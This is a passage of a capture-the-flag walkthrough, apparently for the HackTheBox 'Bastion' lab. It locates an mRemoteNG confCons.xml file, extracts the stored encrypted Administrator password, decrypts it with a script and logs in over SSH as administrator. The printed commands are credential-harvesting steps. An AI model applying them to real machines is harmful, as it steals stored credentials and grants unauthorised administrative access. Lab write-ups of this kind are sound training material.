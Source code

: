 Using `dir /s` search location of file `confCons.xml` in the server. This file in the directory `C:\Users\L4mpje\AppData\Roaming\mRemoteNG`.

```
l4mpje@BASTION C:\Users>dir /s /d confCons.xml
<snip>
 Directory of C:\Users\L4mpje\AppData\Roaming\mRemoteNG

confCons.xml
<snip>
```

Read file `confCons.xml` and I have the encrypted Administrator's password.

```
l4mpje@BASTION C:\Users>type C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml
<snip>
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389"
 <snip>
```

Using `mremoteng_decrypt.py` to crack the hash and got the Password: `thXLHM96BeKL0ER2`.

```
┌──(Hades㉿10.10.14.5)-[0.9:29.5]~/walkthrough/hackthebox/bastion
└─$ python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```

SSH to server with Administrator Credential and own the system.

```
┌──(Hades㉿10.10.14.5)-[0.9:29.5]~/walkthrough/hackthebox/bastion
└─$ ssh administrator@10.10.10.134
administrator@10.10.10.134's password: 
Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                            

administrator@BASTION C:\Users\Administrator>whoami                                                                             
bastion\administrator 
```